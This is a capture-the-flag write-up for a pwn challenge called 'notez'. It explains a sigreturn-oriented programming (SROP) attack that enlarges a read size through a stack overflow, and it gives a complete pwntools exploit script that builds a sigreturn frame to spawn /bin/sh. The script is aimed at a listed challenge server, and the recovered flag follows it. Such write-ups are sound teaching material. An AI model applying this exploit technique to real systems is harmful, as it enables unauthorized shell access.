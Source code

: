 # notez

This challenge was a classic `SROP` one. With our buffer on the stack we overwrote the variable that holds the size used by the `read` function. 
With the stack leak and the buffer overflow we can rebuild rbp and call `read` with an arbitrary size.
Since we have a `syscall` and a `pop rax;ret` gadget:
- Stage 1: offset + new_size_bigger_equal_248_bytes + rbp + read_call_in_main
- Stage 2: bin_sh_string + offset + pop_rax_gadget + sigreturn_syscall_number + syscall + SigreturnFrame

## Exploit
```py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./notez")
#libc = ELF("./")
#ld = ELF("./")

context.binary = elf
#context.terminal = ['tmux', 'splitw', '-hp', '70']
#context.log_level = "debug"
gs = '''
'''

domain= "161.97.155.116"
port = 14337

def start():
    if args.REMOTE:
        return remote(domain, port)
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gs)
    else:
        return process([elf.path])
r = start()

#========= exploit here ===================

r.recvuntil(b"walkthrough: ")
size_addr = int(r.recvline().strip(),16)
rbp = size_addr

r.info("size_addr: " + hex(size_addr))
r.info("rbp: " + hex(rbp))

pop_rax = 0x00000000004011da
syscall = 0x00000000004011dc
leave_ret = 0x00000000004012cb
buf = 0x0000000000404070
read = 0x0040126c                
binsh = 0x404070

# size enlarging
payload = b"A" * 0x18 + p32(0x340) + b"A"*4
payload += p64(rbp) + p64(read)
assert(len(payload) == 0x30)
r.send(payload)


frame = SigreturnFrame()
frame.rax = 59                              # syscall number for execve()
frame.rdi = binsh                           # pointer to "/bin/sh" 
frame.rsi = 0                               # NULL
frame.rdx = 0                               # NULL
frame.rip = syscall                         # syscall address
frame.uc_flags = syscall
frame.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
frame = bytes(frame)

payload  = b"/bin/sh\x00" + b"A" * 0x24
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(syscall)
payload += frame
payload += b"A" * (0x340 - len(payload))

r.send(payload)

r.interactive()
```

`QnQ{the_server_is_down_:\}`
